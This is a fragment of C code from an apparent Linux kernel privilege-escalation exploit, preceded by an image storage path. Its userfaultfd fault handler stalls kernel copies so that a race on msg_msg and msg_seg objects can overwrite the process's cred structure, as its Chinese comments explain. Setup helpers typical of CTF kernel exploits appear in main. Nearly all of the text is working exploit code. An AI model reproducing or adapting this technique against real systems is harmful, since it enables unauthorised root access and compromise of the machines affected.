 ```c
        nready = poll(&pollfd, 1, -1);

        if (nready == -1)
        {
            err_exit("poll");
        }

        nread = read(uffd, &msg, sizeof(msg));

        if (nread == 0)
        {
            err_exit("EOF on userfaultfd!\n");
        }

        if (nread == -1)
        {
            err_exit("read");
        }

        if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            err_exit("Unexpected event on userfaultfd\n");
        }

        /* Write your code here */

        /* Ends here */

        /* set the return value of copy_from/to_user */

        write(pipe_fd2[1], "A", 1); // 通知先去写msg_msg -> msg_seg
        char buf[1];
        read(pipe_fd3[0], buf, 1); // msg_msg->msg_seg执行完了,开始写msg_seg->cred
        page2[0] = 0;
        page2[1] = 9;
        page2[2] = 0;
        page2[3] = 0;
        page2[4] = 0;
        /* Ends here */

        uffdio_copy.src = (unsigned long long)page2;
        uffdio_copy.dst = (unsigned long long)msg.arg.pagefault.address &
                          ~(0x1000 - 1);
        uffdio_copy.len = 0x1000;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        {
            err_exit("ioctl-UFFDIO_COPY");
        }
        return NULL;
    }
}

int main()
{
    pthread_t monitor_setx, monitor_setx2;
    bind_core(0);
    save_status();

    page1 = (size_t *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
```